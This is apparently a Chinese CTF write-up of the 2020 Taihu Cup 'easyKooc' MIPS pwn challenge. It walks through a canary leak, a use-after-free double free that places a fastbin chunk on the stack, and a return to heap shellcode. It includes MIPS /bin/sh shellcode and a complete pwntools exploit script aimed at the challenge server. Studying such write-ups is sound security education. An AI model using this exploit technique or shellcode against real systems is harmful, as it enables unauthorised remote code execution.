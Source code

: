 ```yaml
---
layout:     post
title:      太湖杯2020 easyKooc wp
subtitle:   记太湖杯2020的一道mips题
date:       2020-11-08
author:     X1ng
header-img: 太湖杯2020.jpg
catalog: true
tags:
    - 比赛
    - wp

---
```


看到物联网ctf，还以为会是各种裸机程序、RTOS的题目，，然而pwn好像也都是堆题or2，然而我太菜了只出了一题mips签到

菜鸡落泪

例行检查

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkhs0r2ec6j313808macq.jpg)

开启了 和canary保护，mips下不支持NX保护，所以这里的NX开不开都是一样的

用ghidra打开查看反汇编代码

![](https://tva1.sinaimg.cn/large/0081Kckwly1gky9ijt2ryj30u015o7a4.jpg)

一开始会送一个gift，就是栈的地址

可以直接看到第三个分支是向栈上写入一些内容，然后把输入的内容用printf输出一遍，动调发现有栈溢出

add函数

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkhs2thtscj30w80oc763.jpg)

只能申请0x38大小的chunk，在分配chunk前并不会清空chunk中的信息，然后会用write函数输出一遍chunk中的内容

delete函数

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkhs3011nrj30vo0hc0tm.jpg)

delete存在uaf漏洞

看到这里思路就是通过栈溢出覆盖canary低位的`\x00`来泄露canary，然后在栈上构造`0x00000041`让栈满足fastbin的分配条件，由于栈的地址已经给出，double free将chunk分配到栈上，就可以实现rop

突然发现mips上的rop跟x86下的不太一样，用来找rop的ida脚本装不好，mips指令也没有搞得很明白（菜鸡再次落泪），所以最后还是决定用申请fastbin时候只输入`\n`，利用chunk上残留的fd泄露堆地址，然后把shellcode写在堆地址中，覆盖返回地址为堆地址

但是pwntools里`shellcraft.mips.sh()`生成的shellcode太长，然后面向互联网编写exp，在[ctf-wiki](https://ctf-wiki.github.io/ctf-wiki//pwn/linux/mips/mips_rop-zh/)上找了一段0x30长度的shellcode

```python
shellcode  = b""

shellcode += b"\xff\xff\x06\x28"  # slti $a2, $zero, -1

shellcode += b"\x62\x69\x0f\x3c"  # lui $t7, 0x6962

shellcode += b"\x2f\x2f\xef\x35"  # ori $t7, $t7, 0x2f2f

shellcode += b"\xf4\xff\xaf\xaf"  # sw $t7, -0xc($sp)

shellcode += b"\x73\x68\x0e\x3c"  # lui $t6, 0x6873

shellcode += b"\x6e\x2f\xce\x35"  # ori $t6, $t6, 0x2f6e

shellcode += b"\xf8\xff\xae\xaf"  # sw $t6, -8($sp)

shellcode += b"\xfc\xff\xa0\xaf"  # sw $zero, -4($sp)

shellcode += b"\xf4\xff\xa4\x27"  # addiu $a0, $sp, -0xc

shellcode += b"\xff\xff\x05\x28"  # slti $a1, $zero, -1

shellcode += b"\xab\x0f\x02\x24"  # addiu;$v0, $zero, 0xfab

shellcode += b"\x0c\x01\x01\x01"  # syscall 0x40404
```

后面又发现一些小问题，本地io和远程io又有点不一样导致远程没办法接收堆地址，然后发现每次泄露传回来的地址都一样，但是发现alsr直接是关闭的，连堆地址都是固定的了

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkhsmd535uj30o6086jsx.jpg)

所以直接将shellcode传入第一个chunk，返回地址覆盖成`0x413008`，把canary修复后正常退出即可getshell

exp:

```python
from pwn import*
import sys

context.binary = "easyKooc"
context.arch='mips'
context.log_level = "debug"

if sys.argv[1] == "r":
    p = remote("121.36.166.138", 8890)# 
elif sys.argv[1] == "l":
    p = process(["qemu-mipsel-static", "-L", "./mipsel-linux-gnu", "./easyKooc"])
else:
    p = process(["qemu-mipsel-static", "-g", "1237", "-L", "./mipsel-linux-gnu", "./easyKooc"])


ru=lambda x:p.recvuntil(x)
rc=lambda x:p.recv(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda : p.interactive()

def add(idx,con):
	ru('your choice')
	sl('1')
	ru('todo id!')
	sl(str(idx))
	ru('content')
	sl(con)

def delete(idx):
	ru('your choice')
	sl('2')
	ru('todo id!')
	sl(str(idx))

def show(idx):
	ru('>>')
	sl('4')
	ru('show:')
	sl(str(idx))

def edit(idx,con):
	ru('your choice')
	sl('3')
	ru('leave?')
	sl(str(idx))
	ru('info:')
	sl(con)

shellcode = "\xff\xff\x06\x28"  # slti $a2, $zero, -1

shellcode += "\x62\x69\x0f\x3c"  # lui $t7, 0x6962

shellcode += "\x2f\x2f\xef\x35"  # ori $t7, $t7, 0x2f2f

shellcode += "\xf4\xff\xaf\xaf"  # sw $t7, -0xc($sp)

shellcode += "\x73\x68\x0e\x3c"  # lui $t6, 0x6873

shellcode += "\x6e\x2f\xce\x35"  # ori $t6, $t6, 0x2f6e

shellcode += "\xf8\xff\xae\xaf"  # sw $t6, -8($sp)

shellcode += "\xfc\xff\xa0\xaf"  # sw $zero, -4($sp)

shellcode += "\xf4\xff\xa4\x27"  # addiu $a0, $sp, -0xc

shellcode += "\xff\xff\x05\x28"  # slti $a1, $zero, -1

shellcode += "\xab\x0f\x02\x24"  # addiu;$v0, $zero, 0xfab

shellcode += "\x0c\x01\x01\x01"	 # syscall 0x40404


ru('motto!')
sl(shellcode)
ru('gift for you: 0x')
stack = int(p.recv(8),16)
print hex(stack)

ru('your choice')
sl('3')
ru('to leave?')
sl('a'*0x20)
ru('The message for you is ')
rc(0x21)
canary = u32(rc(3).rjust(4,'\x00'))
print hex(canary)

add(1,'a')
add(2,'b')
add(3,'c')
#add(4,'d')
delete(1)
delete(2)
delete(1)

ru('your choice')
sl('3')
ru('to leave?')
sd('a'*0x1c+p32(0)+p32(0x41))

add(4,p32(stack+0x24))
add(5,'')
#p.recvline()
#heap = u32(rc(0x3a)[0x12:0x15].rjust(4,'\x08'))
#print hex(heap) #失败的io
add(6,'')

ru('your choice')
sl('1')
ru('todo id!')
sl('7')
ru('content')
#sd('A'*4+'B'*4+'C'*4+'D'*4+'E'*4+'F'*4+'G'*4+'H'*4+'I'*4+'J'*4+'K'*4+'L'*4+'M'*4+'N'*4)
#sd('A'*4+p32(heap)+'C'*4+'D'*4+'E'*4+'F'*4+'G'*4+'H'*4+'I'*4+'J'*4+'K'*4+'L'*4+'M'*4+'N'*4)
sd('A'*4+p32(0x413008)+'C'*4+'D'*4+'E'*4+'F'*4+'G'*4+'H'*4+'I'*4+'J'*4+'K'*4+'L'*4+'M'*4+'N'*4)
ru('your choice')
sl('3')
ru('to leave?')
sd('b'*0x20+p32(canary))


ia()
```

